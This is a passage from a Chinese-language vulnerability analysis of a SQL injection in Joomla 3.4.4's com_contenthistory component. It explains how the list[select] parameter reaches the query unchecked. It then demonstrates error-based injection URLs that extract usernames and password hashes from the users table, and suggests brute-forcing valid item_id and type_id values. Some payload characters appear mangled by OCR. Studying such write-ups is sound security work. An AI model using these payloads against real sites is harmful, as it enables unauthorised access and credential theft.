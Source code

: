 ```
                    case 'direction':
                        (...省略...)
                    case 'limit':
                        (...省略...)
                    default:
                        $value = $value;
                        break;
                }    

                $this->setState('list.' . $name, $value);
            }
        }
    (...省略...)

```

而传递`list[select]`参数值最终会被解析到上述组件视图进行处理时 SQL 语句构建中的`list.select`里，从而导致了注入。

0x02 漏洞演示
=========

* * *

通过上面简单的分析，已经知道了受影响的 Joomla 版本中，`contenthistory`组件访问不受权限的控制，并且当进行`view=history`请求时会解析请求参数中`list[select]`的值拼接到 SQL 语句中。下面是该漏洞的简单验证和利用方法。

_1.漏洞验证_

> http://http://172.16.96.130/xampp/Joomla-3.4.4/index.php?option=com_contenthistory&view=history&list[select]=1

因为在进行 SQL 语句拼接的时候，获取了`list.ordering`进行数据查询中的`order`操作，若不提供默认会将其设置为数据进行处理，相关处理位于`/libraries/joomla/database/driver.php`的 quoteName() 函数中。

因此，访问上述构造的URL，服务器会报错：

![](http://drops.javaweb.org/uploads/images/d1bd8bf075d60f56670c45e2e757f9e3c8258a81.jpg)

_2.漏洞利用_

因为在 SQL 语句拼接时，程序框架针对每个`from`或者`where`操作进行了换行处理，所以这里并不能使用`#`、`--`等符号来注释掉后面的语句，只能通过报错注入进行数据提取。但是语句的成功执行有一定的前提条件，也就是传递的`item_id`和`type_id`参数值必须于数据库中有效，同时传递`list[ordering]`参数 (空值即可)，这样注入的语句才能够得到执行，从而进行报错注入。

这里经过多个漏洞站点的测试可以简单的使用`item_id=1&type_id=1`，当然了为了准确性和有效性，可以通过爆破的方式来得到这两个参数的有效值，然后再进行注入操作。

(Tips：Joomla 中构造的 SQL 语句中`#_`最终会在执行前被替换为表前缀)

下面是获取用户名/密码哈希的漏洞演示过程：

> http://http://172.16.96.130/xampp/Joomla-3.4.4/index.php?option=com_contenthistory&view=history&item_id=1&type_id=1&list[ordering]&list[select]=(select 1 from (select count(_),concat((select username from %23__users limit 0,1),floor(rand(0)_2)) from information_schema.tables group by 2)x)

![](http://drops.javaweb.org/uploads/images/b6e0c9a20e968ba47bb3bdbee96aa2059f42f519.jpg)

> http://172.16.96.130/xampp/Joomla-3.4.4/index.php?option=com_contenthistory&view=history&item_id=1&type_id=1&list[ordering]&list[select]=(select 1 from (select count(_),concat((select password from %23__users limit 0,1),floor(rand(0)_2)) from information_schema.tables group by 2)x)
